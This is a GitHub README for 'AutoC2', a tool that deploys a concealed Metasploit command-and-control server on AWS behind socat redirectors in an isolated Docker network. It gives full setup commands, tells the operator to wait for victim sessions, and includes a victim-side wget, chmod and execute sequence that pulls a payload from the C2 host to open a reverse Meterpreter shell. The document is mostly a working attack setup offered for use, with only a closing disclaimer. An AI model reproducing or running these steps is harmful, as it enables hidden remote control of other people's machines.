 
# AutoC2

A quick isolated C2 Deployer.

![AutoC2](/demo_screenshots/AutoC2_1.PNG)


## Overview

AutoC2 makes use of terraform + ansible to deploy and hide a command and control server with isolated docker network within less than 5 mins in a single click!

Brief outline of what the tool does :

1. deploys an ec2 micro instance on desired region given by user.

2. setup the C2 server which is not exposed to the internet with the help of isolated docker network which consists of multiple socat redirectors and a metasploit container instance.

3. uses meterpreter_reverse_http as payload and similar payloads such as 
meterpreter_reverse_https and meterpreter_reverse_tcp works as well. (requires modification to docker_delivery.rc file)

This automated script is built over technique demonstrated by the author of following blog. All credits for technique/ detailed explanation of how this is built can be found here:

https://khast3x.club/posts/2020-02-09-C2-Protection-Socat-Docker/



## Prerequisites

* terraform must be installed

* ansible(python 3)must be installed.
```bash
pip3 install ansible
```

* your IAM account credentials (Aws access key and secret key) with admin privileges.

* AWS Region to be deployed and image(tested on ubuntu and works on debain) AMI code.

* set environment variable to ignore ssh key trust warnings
```bash
export ANSIBLE_HOST_KEY_CHECKING=False
```

## Getting Started

* Only files we touch for changing configuration is **vars.tf** and **terraform.tfvars**.  

* first generate SSH keys for setting up public key authentication on any launched instances.  
```bash
ssh-keygen -f keyy
chmod 600 keyy
```
* inside **vars.tf** , update the path to keys in PRIVATE_KEY , PUBLIC_KEY and other values such as region_aws and AMI value (can be found at cloud-images.ubuntu.com). 

* inside **terraform.tfvars** , update IAM user access key and secret key. 

* run the following command inside this repo project root to initiatize resources. 

```bash
terraform init
```

* Now run the following command to bring up the c2 server . this inturn calls up the ansible playbook to set up the software provisioning and isolated docker network.
```bash
terraform apply
```

* That's it! Infra is set up. Now ssh to the C2 instance using same priv key which was generated before and execute **docker_delivery.rc** metasploit script to start listening for connections.
```bash
SSH -i kkey ubuntu@c2-ip
```

* Verify containers are running.
```bash
sudo docker container ls
```

* Execute metasploit auto handler script inside msf container.
and wait for victim sessions.

```bash
sudo docker container exec -it msf /bin/bash

./msfconsole -r docker_delivery.rc

```
![AutoC2](/demo_screenshots/AutoC2_2.PNG)
![AutoC2](/demo_screenshots/AutoC2_3.PNG)

* By default it generates payload for linux x64 systems.can be modified for different target by modifying **docker_delivery.rc** file

*  By default docker_delivery.rc uses certificate picked up automatically by metasploit.

* On a **victim box**, execute the following to get reverse meterpreter shell on attacker msf container.

```bash
wget --no-check-certificate https://c2IP/delivery
chmod +x delivery
./delivery&
```
![AutoC2](/demo_screenshots/Auto_victim1.PNG)
![AutoC2](/demo_screenshots/AutoC2_7.PNG)
* Finally to destroy the infrastructure completely(use this with caution!) use the following command :
```bash
terraform destroy
```

##### Developed with ♥️ by: Goutham Madhwaraj
##### Do not use this tool for any malicious purpose. I am not responsible for any damage you cause / any non desirable consequences with the help of this tool.

